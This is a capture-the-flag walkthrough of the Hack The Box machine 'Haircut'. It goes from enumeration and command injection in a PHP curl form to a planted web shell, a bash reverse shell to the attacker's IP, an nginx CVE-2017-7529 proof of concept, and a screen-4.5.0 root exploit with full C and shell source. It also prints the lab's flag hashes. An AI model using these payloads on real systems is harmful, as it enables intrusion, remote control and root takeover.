








# Haircut (10.10.10.24)

## nmap

```
Nmap scan report for 10.10.10.24
Host is up, received user-set (0.026s latency).
Scanned at 2022-01-07 14:14:06 EST for 8s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDo4pezhJs9c3u8vPWIL9eW4qxQOrHCslAdMftg/p1HDLCKc+9otg+MmQMlxF7jzEu8vJ0GPfg5ONRxlsfx1mwmAXmKLh9GK4WD2pFbg4iFiAO/BAUjs3dNdR1S9wR6F+yRc2jgIyKFJO3JohZZFnM6BrTkZO7+IkSF6b3z2qzaWorHZW04XHdbxKjVCHpU5ewWQ5B32ScKRJE8bsi04Z2lE5vk1NWK15gOqmuyEBK8fcQpD1zCI6bPc5qZlwrRv4r4krCb1h8zYtAwVnoZdtYVopfACgWHxqe+/8YqS8qo4nPfEXq8LkUc2VWmFztWMCBuwVFvW8Pf34VDD4dEiIwz
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLrPH0YEefX9y/Kyg9prbVSPe3U7fH06/909UK8mAIm3eb6PWCCwXYC7xZcow1ILYvxF1GTaXYTHeDF6VqX0dzc=
|   256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA+vUE7P+f2aiWmwJRuLE2qsDHrzJUzJLleMvKmIHoKM
80/tcp open  http    syn-ack ttl 63 nginx 1.10.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## access

Looking at port 80 first, since ssh looks up to date and we don't have usernames to try brute-forcing logins

Standard scans:

```sh
❯ ulimit -n 8192 # prevent file access error during scanning
❯ whatweb -v -a3 http://10.10.10.24 | tee whatweb.log
# Summary   : nginx[1.10.0], HTML5, HTTPServer[Ubuntu Linux][nginx/1.10.0 (Ubuntu)]

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster.log -u http://10.10.10.24
http://10.10.10.24/index.html           (Status: 200) [Size: 144]
http://10.10.10.24/test.html            (Status: 200) [Size: 223]
http://10.10.10.24/uploads              (Status: 403) [Size: 178]
```

No interesting technologies from `whatweb`. Searchsploit on `nginx 10.10` doesn't turn up any results either.

Browsing to the page:


Just a graphic. Source code confirms nothing interesting:



Looking at `test.html`:



Boring image again. Source shows an XML DTD at the top, which is a little different than before, but nothing else interesting:



Since this website is running on nginx, expecting that it's not a php backend. Maybe Perl or Python or Node.js. Trying to look for other file extensions:

```sh
❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "py,pl,sh,js" -u http://10.10.10.24
http://10.10.10.24/index.html           (Status: 200) [Size: 144]
http://10.10.10.24/uploads              (Status: 403) [Size: 178]
```

But nothing comes up. Maybe using a different wordlist?

```sh
❯ gobuster dir -ezqrkw /usr/share/seclists/Discovery/Web-Content/big.txt -t 100 -x "txt,htm,html,py,pl,sh,js" -o gobuster-big.log -u http://10.10.10.24
http://10.10.10.24/hair.html            (Status: 200) [Size: 141]
```

This turns up a new page (`hair.html`). Browsing to page:


Another boring image. Again, nothing interesting in the source:



Checking UDP ports to see if I missed something:

```sh
❯ sudo nmap -n -v -sU -T4 --top-ports=20 -sV --reason --open -oA udp-top20 10.10.10.24
Nmap scan report for 10.10.10.24
Host is up, received echo-reply ttl 63 (0.049s latency).
Not shown: 13 closed udp ports (port-unreach)
PORT      STATE         SERVICE      REASON      VERSION
135/udp   open|filtered msrpc        no-response
137/udp   open|filtered netbios-ns   no-response
139/udp   open|filtered netbios-ssn  no-response
445/udp   open|filtered microsoft-ds no-response
1434/udp  open|filtered ms-sql-m     no-response
1900/udp  open|filtered upnp         no-response
49152/udp open|filtered unknown      no-response
```

Nothing. Hrmm. Double-checking full TCP port scan with vanilla nmap (sometimes rustscan goes too fast):

```sh
❯ nmap -v -n -p- -T4 10.10.10.24
```

But it turns up the same results (80, 22). Trying another large wordlist for gobuster:

```sh
❯ gobuster dir -ezqrkw /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 100 -x "txt,htm,html,py,pl,sh,js" -u http://10.10.10.24
```

But again getting the same results. Also tried using `curl` to do POST requests to each page to see if there is different behavior, but it just responds with `405 Not Allowed`. Trying with HEAD:

```sh
❯ curl -I http://10.10.10.24/hair.html
HTTP/1.1 200 OK
Server: nginx/1.10.0 (Ubuntu)
Date: Fri, 07 Jan 2022 20:10:38 GMT
Content-Type: text/html
Content-Length: 141
Last-Modified: Mon, 15 May 2017 10:35:19 GMT
Connection: keep-alive
ETag: "59198467-8d"
Accept-Ranges: bytes
```

I've never seen "Accept-Ranges" header before. The [Mozilla documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept-Ranges) says:

>  The Accept-Ranges HTTP response header is a marker used by the server to advertise its support for partial requests from the client for file downloads. The value of this field indicates the unit that can be used to define a range.
>
> In the presence of an Accept-Ranges header, the browser may try to resume an interrupted download instead of trying to restart the download.

So that's interesting, but I don't know if there is a way to abuse it. Googling "HTTP Accept-Ranges exploit" turns up an interesting [blog post](https://lab.wallarm.com/numbers-game-exploring-integeroverflow-vulnerability-in-a-popular-nginx-web-server-bc818fdb5bac/) that there is an integer overflow vulnerability in versions of nginx as early as 0.5.6 up to and including 1.13.2 that lets us leak sensitive data! It references a [POC](https://github.com/nixawk/labs/issues/15) to test the vulnerability:

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

# Nginx - Remote Integer Overflow Vulnerability
# CVE-2017-7529

import requests
import logging
import sys


logging.basicConfig(level=logging.INFO)
log = logging.getLogger(__name__)


def send_http_request(url, headers={}, timeout=8.0):
    httpResponse   = requests.get(url, headers=headers, timeout=timeout)
    httpHeaders    = httpResponse.headers

    log.info("status: %s: Server: %s", httpResponse.status_code, httpHeaders.get('Server', ''))
    return httpResponse


def exploit(url):
    log.info("target: %s", url)
    httpResponse   = send_http_request(url)

    content_length = httpResponse.headers.get('Content-Length', 0)
    bytes_length   = int(content_length) + 623
    content_length = "bytes=-%d,-9223372036854%d" % (bytes_length, 776000 - bytes_length)

    httpResponse   = send_http_request(url, headers={ 'Range': content_length })
    if httpResponse.status_code == 206 and "Content-Range" in httpResponse.text:
        log.info("[+] Vulnerable to CVE-2017-7529")
    else:
        log.info("[?] Unknown Vulnerable")


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print("[*] %s <url>" % sys.argv[0])
        sys.exit(1)

    url = sys.argv[1]
    exploit(url)
```

Just trying to run as-is gives unknown results:

```sh
❯ python3 poc.py http://10.10.10.24/test.html
INFO:__main__:target: http://10.10.10.24/test.html
INFO:__main__:status: 200: Server: nginx/1.10.0 (Ubuntu)
INFO:__main__:status: 200: Server: nginx/1.10.0 (Ubuntu)
INFO:__main__:[?] Unknown Vulnerable
```

Dang. But when I try copying the example request from the blog post, I get results that seem to indicate vulnerability, even though there is no data:

```sh
❯ curl http://10.10.10.24/hair.html -H "Range: bytes=-7000,-9223372036854768808"

--00000000000000000002
Content-Type: text/html
Content-Range: bytes -6859-140/141
```

Strange. Digging into it, it looks like only `curl` gets the "Accept-Range" header in the response, which I can't explain. It doesn't matter if I change the User Agent string, either. Getting stuck.

Going back to the wordlists, maybe my assumption that it isn't a php site is wrong, so re-doing the `gobuster` scans with php added as an extension:

```sh
❯ gobuster dir -ezqrkw /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x "php,cgi" -u http://10.10.10.24
http://10.10.10.24/exposed.php          (Status: 200) [Size: 446]
```

A new page! Browsing to `exposed.php` shows something very interesting! There is a web form that lets you do a curl request from the server!



Looking at the source, it straight-up injects the downloaded data into the page. I wonder if it will run php code?

Trying a simple proof of concept:

```sh
# make php file to print php information
❯ echo '<?php phpinfo(); ?>' > test.php
# serve file
❯ sudo python3 -m http.server 80
```

Then submit request using my IP and the filename, but it just embeds the text directly in the page (it doesn't interpret the php):



But at least I have some form of SSRF vulnerability I can exploit. Let's see if we can grab sensitive files. First try `/etc/passwd` with url `file:///etc/passwd`:



It works! Some interesting users:

- www-data (likely this app)
- dnsmasq (DNS service)
- mysql (DB service)
- `maria:x:1000:1000:maria,,,:/home/maria:/bin/bash` - a local username!

Let's see if we can guess Maria's password for ssh while we continue to poke around:

```sh
❯ hydra -V -f -l 'maria' -P /mnt/vm-share/rockyou.txt ssh://10.10.10.24
```

Now try to grab other files:

- `file:///etc/nginx/nginx.conf` - nothing interesting here
- `file:///etc/nginx/sites-enabled/default` - shows web-root at `/var/www/html`
- `file:///var/www/html/exposed.php` - source of this web page!

```php+HTML
<html>
	<head>
		<title>Hairdresser checker</title>
	</head>
	<body>
	<form action='exposed.php' method='POST'>
		<span>
		<p>
		Enter the Hairdresser's location you would like to check. Example: http://localhost/test.html
		</p>
		</span>
		<input type='text' name='formurl' id='formurl' width='50' value='http://localhost/test.html'/>
		<input type='submit' name='submit' value='Go' id='submit' />
	</form>
	<span>
		<?php
			if(isset($_POST['formurl'])){
			echo "<p>Requesting Site...</p>";
			$userurl=$_POST['formurl'];
			$naughtyurl=0;
			$disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']');
			foreach($disallowed as $naughty){
				if(strpos($userurl,$naughty) !==false){
					echo $naughty.' is not a good thing to put in a URL';
					$naughtyurl=1;
				}
			}
			if($naughtyurl==0){
				echo shell_exec("curl ".$userurl." 2>&1");
			}
			}
		?>
	</span>
	</body>
</html>
```

This definitely looks exploitable! They use a custom blacklist to prevent "naughty" URLs, but they failed to include things like backticks and subshells (i.e. `$()`).

Now to try exploiting with a simple curl command that runs `id`, saving its output to `/tmp/id` and then uses the server's curl command to pull the file contents:

```sh
❯ curl -X POST http://10.10.10.24/exposed.php --data-urlencode 'formurl=$(id>/tmp/id) file:///tmp/id'
# --- snip ---
uid=33(www-data) gid=33(www-data) groups=33(www-data)
# --- snip ---
```

Booyah! Now get some info on the target:

```sh
# get OS info
❯ curl -X POST http://10.10.10.24/exposed.php --data-urlencode 'formurl=$(uname -a >/tmp/out) file:///tmp/out'
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

❯ curl -X POST http://10.10.10.24/exposed.php --data-urlencode 'formurl=$(cat /etc/*release >/tmp/out) file:///tmp/out'
PRETTY_NAME="Ubuntu 16.04.2 LTS"

# get env vars
❯ curl -X POST http://10.10.10.24/exposed.php --data-urlencode 'formurl=$(env>/tmp/out) file:///tmp/out'
USER=www-data
HOME=/var/www
PWD=/var/www/html
```

This would be a lot easier to get a reverse shell if we didn't have to deal with the blacklist. I bet we could create a simple PHP web shell in the web-root folder. To write the php code, it requires restricted characters (`[]`), but we can get around this by using printf with the ASCII octal values of those characters. Also of note, the www-data user can't write to `/var/www/html`, but they can write to `/var/www/html/uploads`

```sh
❯ curl -X POST http://10.10.10.24/exposed.php --data-urlencode $'formurl=$(printf \'<?php system($_REQUEST\\133"cmd"\\135) ?>\'>/var/www/html/uploads/cmd.php) file:///var/www/html/uploads/cmd.php'
<?php system($_REQUEST["cmd"]) ?>
```

Now visit the page and see if it worked:



Boom. Now create a reverse shell:

```sh
# start listener
nc -lvnp 9000

# kick off bash reverse shell
❯ curl http://10.10.10.24/uploads/cmd.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.8/9000 0>&1"'
```

And that gives us a shell!

**NOTE:** Later I found that I could have more easily created the web shell by writing the file locally and using the curl `-o` flag to write it to the uploads directory (pulling it from my local web server).

```sh
# make php file to print php information
❯ echo '<?php system($_REQUEST["cmd"]) ?>' > cmd.php
# serve file
❯ sudo python3 -m http.server 80
# trigger the file upload
❯ curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=http://10.10.14.8/cmd.php -o /var/www/html/uploads/cmd.php'
```

Here's user.txt:

```sh
$ cat /home/maria/user.txt
3b6b27272e5d170edc58d897b1367353
```


## privesc

Running linpeas.sh, find a few possibilities:

- Linux kernel 4.4.0-78-generic is old, might be vulnerable to exploits
- Unknown SUID binary: `/usr/bin/screen-4.5.0`
- Unknown SGID binary: `/usr/bin/screen.old`

Looking at [GTFObins](https://gtfobins.github.io/gtfobins/screen/), it shows `screen` version 4.05.00 can be used to append data to any file.

```sh
LFILE=file_to_write
screen -L $LFILE echo DATA
```

Checking our version:

```sh
$ screen --version
Screen version 4.05.00 (GNU) 10-Dec-16
```

It's a match! This should let us add a root user to the machine!

Looking at other POCs on exploit-db ([here](https://www.exploit-db.com/exploits/41152) and [here](https://www.exploit-db.com/exploits/41154)), they also add flags `-D -m` to the screen command, so I'll do that, too.

Testing the exploit:

```sh
cd /tmp
screen -D -m -L derp echo fail
cat derp
# fail
```

That seems to work. Now trying to overwrite `/etc/passwd`:

```sh
cp /etc/passwd /tmp/passwd.pwn
echo 'derp:$5$derp$uEWQFRg/9idrisiL6SgLNfSAv3.UNCc7eHUv.L1Wlo.:0:0:root:/root:/bin/bash' >> /tmp/passwd.pwn
screen -D -m -L /etc/passwd cat /tmp/passwd.pwn
# getpwuid() can't identify your account!
```

Huh? Uh-oh, it looks like I deleted `/etc/passwd`:

```sh
$ ls -l passwd
-rw-r--r-- 1 0 root 0 Jan  8 03:34 passwd
```

Ok, gotta reset the box. Next time, follow along with the exploit-db POCs, which use `ld.so.preload`.

First make 3 files on the attack box:

#### libhax.c:

```c
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

#### rootshell.c

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execlp("/bin/bash", "-p", NULL);
}
```

#### pwn.sh

```sh
#!/bin/bash
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

Then perform the exploit chain:

```sh
# compile files locally on attacker VM:
❯ gcc -Wall -fPIC -shared -ldl libhax.c -o libhax.so
❯ gcc -Wall -static rootshell.c -o rootshell

# host files for download
sudo python3 -m http.server 80

# on target, download the files
cd /tmp
wget 10.10.14.8/libhax.so
wget 10.10.14.8/rootshell
wget 10.10.14.8/pwn.sh

# run exploit script
chmod +x pwn.sh
./pwn.sh
```

And here is 'root.txt':

```sh
# cat root.txt
8927e07d6860afe3806bc920a66d34a9
```

